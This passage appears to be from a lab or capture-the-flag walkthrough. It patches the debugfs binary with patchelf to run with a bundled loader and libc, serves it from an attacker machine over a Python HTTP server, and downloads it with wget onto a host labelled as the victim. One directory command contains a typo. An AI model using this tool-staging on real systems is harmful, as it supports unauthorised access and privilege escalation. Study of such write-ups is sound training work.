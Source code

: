 `ldd /usr/sbin/debugfs`:
```
        linux-vdso.so.1 (0x00007fff4e7a3000)
        libext2fs.so.2 => /lib/x86_64-linux-gnu/libext2fs.so.2 (0x00007f69078a9000)
        libe2p.so.2 => /lib/x86_64-linux-gnu/libe2p.so.2 (0x00007f690789e000)
        libss.so.2 => /lib/x86_64-linux-gnu/libss.so.2 (0x00007f6907895000)
        libcom_err.so.2 => /lib/x86_64-linux-gnu/libcom_err.so.2 (0x00007f690788f000)
        libblkid.so.1 => /lib/x86_64-linux-gnu/libblkid.so.1 (0x00007f6907830000)
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f6907824000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f690763f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6907971000)
```

`readelf -d /usr/sbin/debugfs | grep "NEEDED"`:
```
 0x0000000000000001 (NEEDED)             Shared library: [libext2fs.so.2]
 0x0000000000000001 (NEEDED)             Shared library: [libe2p.so.2]
 0x0000000000000001 (NEEDED)             Shared library: [libss.so.2]
 0x0000000000000001 (NEEDED)             Shared library: [libcom_err.so.2]
 0x0000000000000001 (NEEDED)             Shared library: [libblkid.so.1]
 0x0000000000000001 (NEEDED)             Shared library: [libuuid.so.1]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

`mkdir ./patchelf && cd ./parchelf`

`cp /lib64/ld-linux-x86-64.so.2 ./`

`cp /lib/x86_64-linux-gnu/libc.so.6 ./`

`cp /usr/sbin/debugfs ./`

`patchelf ./debugfs --set-interpreter ./ld-linux-x86-64.so.2`

`patchelf ./debugfs --replace-needed libc.so.6 ./libc.so.6`

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: coralie](https://img.shields.io/badge/Victim-coralie-64b5f6?logo=linux&logoColor=white)

`wget http://192.168.56.118/debugfs`:
```
--2024-10-16 15:34:11--  http://192.168.56.118/debugfs
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 266497 (260K) [application/octet-stream]
Saving to: ‘debugfs’

debugfs                                         100%[====================================================================================================>] 260.25K  --.-KB/s    in 0.008s  

2024-10-16 15:34:11 (31.3 MB/s) - ‘debugfs’ saved [266497/266497]
```
